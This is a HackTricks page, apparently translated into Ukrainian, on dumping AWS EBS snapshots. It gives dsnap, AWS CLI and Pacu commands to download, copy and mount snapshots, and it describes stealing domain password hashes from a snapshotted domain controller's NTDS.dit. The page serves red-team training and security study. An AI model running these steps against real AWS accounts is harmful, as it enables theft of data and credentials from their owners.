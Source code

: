 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Перевірка знімка локально
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Зверніть увагу**, що `dsnap` не дозволить вам завантажити публічні знімки. Щоб обійти це, ви можете зробити копію знімка у вашому особистому акаунті та завантажити його:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Для отримання додаткової інформації про цю техніку перегляньте оригінальне дослідження за посиланням [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Ви можете зробити це з Pacu, використовуючи модуль [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs__download_snapshots)

## Перевірка знімка в AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Підключіть його до EC2 VM під вашим контролем** (він має бути в тому ж регіоні, що й копія резервної копії):

Крок 1: Необхідно створити новий об'єм бажаного розміру та типу, перейшовши до EC2 –> Об'єми.

Щоб виконати цю дію, виконайте такі команди:

* Створіть об'єм EBS для підключення до EC2 екземпляра.
* Переконайтеся, що об'єм EBS та екземпляр знаходяться в одній зоні.

Крок 2: Виберіть опцію "підключити об'єм", клацнувши правою кнопкою миші на створеному об'ємі.

Крок 3: Виберіть екземпляр з текстового поля екземпляра.

Щоб виконати цю дію, використовуйте наступну команду:

* Підключіть об'єм EBS.

Крок 4: Увійдіть до екземпляра EC2 та перелікуйте доступні диски, використовуючи команду `lsblk`.

Крок 5: Перевірте, чи є дані на об'ємі, використовуючи команду `sudo file -s /dev/xvdf`.

Якщо вивід вище наведеної команди показує "/dev/xvdf: data", це означає, що об'єм порожній.

Крок 6: Форматуйте об'єм у файлову систему ext4, використовуючи команду `sudo mkfs -t ext4 /dev/xvdf`. Альтернативно, ви також можете використовувати формат xfs, використовуючи команду `sudo mkfs -t xfs /dev/xvdf`. Зверніть увагу, що ви повинні використовувати або ext4, або xfs.

Крок 7: Створіть каталог на ваш вибір для підключення нового об'єму ext4. Наприклад, ви можете використовувати назву "newvolume".

Щоб виконати цю дію, використовуйте команду `sudo mkdir /newvolume`.

Крок 8: Підключіть об'єм до каталогу "newvolume", використовуючи команду `sudo mount /dev/xvdf /newvolume/`.

Крок 9: Змініть каталог на каталог "newvolume" і перевірте дисковий простір, щоб підтвердити підключення об'єму.

Щоб виконати цю дію, використовуйте такі команди:

* Змініть каталог на `/newvolume`.
* Перевірте дисковий простір, використовуючи команду `df -h .`. Вивід цієї команди має показувати вільний простір у каталозі "newvolume".

Ви можете зробити це з Pacu, використовуючи модуль `ebs__explore_snapshots`.

## Перевірка знімка в AWS (використовуючи cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Будь-який користувач AWS, який має дозвіл **`EC2:CreateSnapshot`**, може вкрасти хеші всіх доменних користувачів, створивши **знімок Контролера домену**, змонтувавши його на екземплярі, яким вони керують, і **експортувавши NTDS.dit та SYSTEM** реєстровий файл для використання з проектом secretsdump від Impacket.

Ви можете використовувати цей інструмент для автоматизації атаки: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) або ви можете використовувати одну з попередніх технік після створення знімка.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
